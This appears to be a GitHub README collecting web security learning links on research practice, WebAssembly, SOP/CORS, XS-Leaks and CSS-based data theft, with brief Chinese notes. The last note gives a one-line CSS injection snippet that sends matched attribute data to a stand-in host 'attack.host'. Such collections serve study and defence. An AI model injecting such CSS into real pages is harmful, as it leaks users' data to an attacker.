 # Web-Security-Learning    
Let's learn about Web Security.  

# Here comes the collection of some good articles
## How to take a good practice
* [安全研究者的自我修养](https://mp.weixin.qq.com/s?__biz=MzU0MzgzNTU0Mw==&mid=2247483913&idx=1&sn=2a0558592e072389e348dc8f7c6223d1&chksm=fb0416f1cc739fe7aed6f45167dc5a555974aaeb250cdcdc3bdd973ae151b8534a7c2cef6c43&scene=21#wechat_redirect) - The author @nedwill talked about how he practiced for browser exploitment within the conference of "Attacking Chrome IPC".  
* [So you want to be a web security researcher?](https://portswigger.net/blog/so-you-want-to-be-a-web-security-researcher) - How @albinowax recommended to learn web security.  
* [如何阅读一份源代码？](https://www.codedump.info/post/20190324-how-to-read-code/) - Make your own interaction with the code, make sure you understand the code.

## WASM
* [WebAssembly Concepts
](https://developer.mozilla.org/en-US/docs/WebAssembly/Concepts)  
* [Using the WebAssembly JavaScript API
](https://developer.mozilla.org/en-US/docs/WebAssembly/Using_the_JavaScript_API)  
* [Introduction to WebAssembly](https://sensepost.com/blog/2018/introduction-to-webassembly/)  
* [玩轉 WebAssembly && 逆向](https://blog.1pwnch.com/web/reverse/2019/05/22/Say-Hello-to-WASM/#more)

## Frontend
* [你真的会使用XMLHttpRequest吗?](https://segmentfault.com/a/1190000004322487)  
* [SOP與CORS安全詳解](https://jiwo.org/ken/detail.php?id=2393)  

## XS-Leaks
* [Exposing Intranets with reliable Browser-based Port scanning](https://portswigger.net/blog/exposing-intranets-with-reliable-browser-based-port-scanning)  
* [从35c3CTF的filemanager题目中学到的一个小tips](https://blog.wonderkun.cc/2018/12/30/%E4%BB%8E35c3CTF%E7%9A%84filemanager%E9%A2%98%E7%9B%AE%E4%B8%AD%E5%AD%A6%E5%88%B0%E7%9A%84%E4%B8%80%E4%B8%AA%E5%B0%8Ftips/#more)  
* [github-xsleaks](https://github.com/xsleaks/xsleaks/wiki)  
* [secret note keeper -- Facebook CTF 2019](https://sectt.github.io/writeups/FBCTF19/secret_note_keeper/README)  
* [gimme-a-bit-exploring-attacks-in-the-post-xss-world](https://speakerdeck.com/lmt_swallow/gimme-a-bit-exploring-attacks-in-the-post-xss-world)  

雖然和XSS一樣是跨域偷信息的技巧，但因為受限於SOP所以不是直接回傳信息，而是利用盲注: **配合爆破觀察瀏覽器的行為**(猜中和沒猜中頁面會有何差異)! 至於如何跨域觀察瀏覽器的行為呢? 特定信息是可以跨域傳送的，像是iframe count就不受SOP的限制，樓上35c3的filemanager就是利用onload數量和xss-auditor來跨域爆破出flag的!  

## Steal data with CSS
* [使用CSS窃取数据：攻击与防守](http://www.fwheart.club/2019/04/08/[%E8%AF%91]%E4%BD%BF%E7%94%A8CSS%E7%AA%83%E5%8F%96%E6%95%B0%E6%8D%AE%EF%BC%9A%E6%94%BB%E5%87%BB%E4%B8%8E%E9%98%B2%E5%AE%88/)  

在頁面中注入css，利用attribute selector，若match則傳送特定query (`{background:url("https://attack.host/aa");}`) 到自己的server以竊取資訊!
